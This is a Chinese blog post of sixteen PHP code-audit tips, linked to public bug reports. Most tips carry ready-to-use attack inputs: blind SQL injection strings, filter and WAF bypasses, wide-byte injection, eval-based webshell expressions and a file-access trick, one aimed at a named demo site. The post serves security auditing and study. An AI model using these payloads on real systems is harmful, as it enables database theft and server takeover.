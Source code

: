 title: PHP代码审计tips
date: 2016-01-10 18:04:13
categories: [web]
tags: [随笔]
---
https://www.91ri.org/15074.html
<!--more-->
PHP代码审计tips
1、$_SERVER[‘PHP_SELF’]和$_SERVER[‘QUERY_STRING’]，而$_SERVER并没有转义，造成了注入。
例如：
```
/easy/index.php/aaa',(select/**/if((select/**/ord(substr(user(),1,1)))=114,sleep(3),0)),1)#
```
2、update更新时没有重构更新序列，导致更新其他关键字段（金钱、权限）

例如：

```
id=1&data=1991-03-16&money=10000000
```
http://www.wooyun.org/bugs/wooyun-2014-069507

3、在 php中 如果使用了一个未定义的常量，PHP 假定想要的是该常量本身的名字，如同用字符串调用它一样（CONSTANT 对应 “CONSTANT”）。此时将发出一个 E_NOTICE 级的错误（参考http://php.net/manual/zh/language.constants.syntax.php）

例如：

```
未定义常量if(IN_ADMIN != TRUE) 等式不成立，非0、null都为true
```
http://www.wooyun.org/bugs/wooyun-2014-069503

4、PHP中自编写对标签的过滤或关键字过滤，应放在strip_tags等去除函数之后，否则引起过滤绕过。
例如：

```
function mystrip_tags($string)
{
$string = remove_xss($string);
$string = new_html_special_chars($string);
$string = strip_tags($string);//remove_xss在strip_tags之前调用，所以很明显可以利用strip_tags函数绕过,在关键字中插入html标记.
return $string;
}
```
http://www.wooyun.org/bugs/wooyun-2014-070316

对关键字过滤之后存在字符替换、html去除等操作可构造多余字符绕过。

例如：提交

```
user/**/W<a>HERE/**/IF((S<a>ELECT/**/A<a>SCII(S<a>UBSTRING(PASSWORD,1,1))F<a>ROM/**/ts_user/**/L<a>IMIT 1)=101,1=S<a>LEEP(2.02),0)%23
```
由于全局关键字过滤之后存在strip_tags()函数可绕过。

http://www.wooyun.org/bugs/wooyun-2014-077877

http://www.wooyun.org/bugs/wooyun-2014-077689

5、当可控变量进入双引号中时可形成webshell
例如：

```
$a = "${@eval($_POST[s])}";
$a = "${${eval($_POST[s])}}";
```
因此代码执行使用${file_put_contents($_GET[f],$_GET[p])}可以生成webshell。

http://www.wooyun.org/bugs/wooyun-2014-085518

6、宽字节转编码过程中出现宽字节注入
```
例如：测试输入 \->%5C %e5%5c%5c' 两个\\ 则单引号出来
```
7、构造查询语句时无法删除目标表中不存在字段时可使用mysql多表查询绕过。

例如：
```
select uid,password from users,admins；
```
(uid存在于users、password存在于admins）
8、mysql中（反引号）能作为注释符，且会自动闭合末尾没有闭合的反引号。无法使用注释符的情况下使用别名as+反引号可闭合其后语句。

例如：
```
select `username`,`password` from pre_common_statuser as ` as statistic from common_stat where uid=1
```
此处（password from pre_common_statuser as ）为注入语句，使用别名as与自带无视其后语句。

http://www.wooyun.org/bugs/wooyun-2014-074970

9、mysql的类型强制转换可绕过PHP中empty()函数对0的false返回。

例如：提交
```
/?test=0axxx    -> empty($_GET['test']) => 返回真
```
但是mysql中提交其0axxx到数字型时强制转换成数字0

http://zone.wooyun.org/content/15859

10、存在全局过滤时观察过滤条件是否有if判断进入，cms可能存在自定义safekey不启用全局过滤。通过程序遗留或者原有界面输出safekey导致绕过。
例如：

Default
```
if($config['sy_istemplate']!='1' || md5(md5($config['sy_safekey']).$_GET['m'])!=$_POST['safekey'])
{
foreach($_POST as $id=>$v){
safesql($id,$v,"POST",$config);
$id = sfkeyword($id,$config);
$v = sfkeyword($v,$config);
$_POST[$id]=common_htmlspecialchars($v);
}
}
```
http://www.wooyun.org/bugs/wooyun-2014-070126

11、由于全局过滤存在白名单限定功能，可使用无用参数带入绕过。
例如：
```
if ($webscan_switch&&webscan_white($webscan_white_directory,$webscan_white_url))
```
其中具体过滤代码如下：

//后台白名单,后台操作将不会拦截,添加”|”隔开白名单目录下面默认是网址带 admin /dede/ 放行

```
$webscan_white_directory='admin|\/dede\/|\/install\/';
//url白名单,可以自定义添加url白名单,默认是对phpcms的后台url放行
//写法：比如phpcms 后台操作url index.php?m=admin php168的文章提交链接post.php?job=postnew&step=post ,dedecms 空间设置edit_space_info.php
```

```
$webscan_white_url = array('index.php' => 'admin_dir=admin','post.php' => 'job=postnew&step=post','edit_space_info.php'=>'');
```
只要让传入参数存在白名单目录或参数即可绕过。
利用白名单目录：

```
http://www.target.com/index.php/dede/?m=foo&c=bar&id=1' and 1=2 union select xxx
```
由于请求中包含了白名单目录/dede/，所以放行。
利用白名单参数：
```
http://www.target.com/index.php?m=foo&c=bar&admin_dir=admin&id=1' and 1=2 union select xxx
```
请求中包含了白名单参数所以放行。

http://www.wooyun.org/bugs/wooyun-2014-070126

12、字符串截断函数获取定长数据，截取\\或\’前一位，闭合语句。
利用条件必须是存在两个可控参数，前闭合，后注入。
例如：

```
if (strlen($u_email)>32) { $u_email = substring($u_email,32);}
if (strlen($u_qq)>16) { $u_qq = substring($u_qq,16);}
if (strlen($u_phone)>16) { $u_phone = substring($u_phone,16);}
$u_phone=123456789012345\ 带入：
UPDATE mac_user SET u_qq='$u_qq',u_email='$u_email',u_phone='123456789012345\',u_question='$u_question',u_answer='$u_answer',u_password='$u_password' WHERE u_id=1
http://www.wooyun.org/bugs/wooyun-2014-082973
```
13、过滤了空格，逗号的注入，可使用括号包裹绕过。具体如遇到select from（关键字空格判断的正则，且剔除/**/等）可使用括号包裹查询字段绕过。
例如：
```
select(location)from(website);
```
http://www.wooyun.org/bugs/wooyun-2014-079379

另外一种方式：
```
select{x table_name}from{x information_schema.tables}
select{x(name)}from{x(manager)};
select{wooyun'zone'}from{mysql.user}
select{x+table_name}from{x(information_schema.tables)}
```
14、由于PHP弱类型验证机制，导致==、in_array()等可通过强制转换绕过验证。
例如：
```
in_array($_GET['x'],array(1,2,3,4,5))
访问?test=’1’testtest可判断成功。
```
http://www.freebuf.com/articles/web/55075.html

15、WAF或者过滤了and|or的情况可以使用&&与||进行盲注。
```
FALSE的情况：
1 || 0
TRUE的情况：
1 || 1
```
例如：
```
http://demo.74cms.com/user/user_invited.php?id=1%20||%20strcmp(substr(user(),1,13),char(114,111,111,116,64,108,111,99,97,108,104,111,115,116))&act=invited
```
16、windows下php中访问文件名使用”<” “>”将会被替换成”*” “?”，分别代表N个任意字符与1个任意字符。
例如：
```
file_get_contents("/images/".$_GET['a'].".jpg");
```
可使用test.php?a=../a<%00访问对应php文件。

http://www.phpbug.cn/archives/87.html#more-87
